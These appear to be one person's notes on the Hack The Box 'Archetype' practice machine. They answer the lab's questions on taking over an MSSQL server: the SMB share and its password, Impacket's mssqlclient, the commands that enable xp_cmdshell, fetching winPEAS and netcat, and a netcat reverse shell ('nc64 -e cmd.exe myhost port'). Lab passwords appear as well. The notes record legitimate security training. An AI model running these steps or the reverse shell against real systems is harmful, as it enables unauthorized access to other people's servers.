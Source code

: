 ```yaml
---
created: 2022-06-10T00:45:16+10:00
updated: 2022-08-29T01:02:02+10:00
---
```

# Archetype
1. Which TCP port is hosting a database server?
    - `1433` - ms-sql
2. What is the name of the non-Administrative share available over [[smb|SMB]]?
    - `backups`
3. What is the password identified in the file on the SMB share?
    - `M3g4c0rp123`
4. What script from Impacket collection can be used in order to establish an authenticated connection to a [[mssql|Microsoft SQL Server]]?
    - `mssqlclient.py`
    - or probably `impacket-mssqlclient`
    - `user:pass@host` but also needed `-windows-auth`
5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
    - `xp_cmdshell`
        - must enable
        - `sp_configure 'show advanced options', 1`
        - `reconfigure`
        - `sp_configure 'xp_cmdshell', 1`
        - `reconfigure`
        - oh... apparently `enable_xp_cmdshell` exists in this client
6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?
    - `winpeas`
    - [[winpeas]]
    - had to download locally, then serve it over http, and then download with certutil/wget
    - also served nc64/netcat/whatever
    - ran `nc64 -e cmd.exe myhost port`
    - and `nc -lvnp port` 
7. What file contains the administrator's password?
    - `ConsoleHost_history.txt`
    - `MEGACORP_4dm1n!!`
8. Submit user flag
    - 
9. Submit root flag
    - 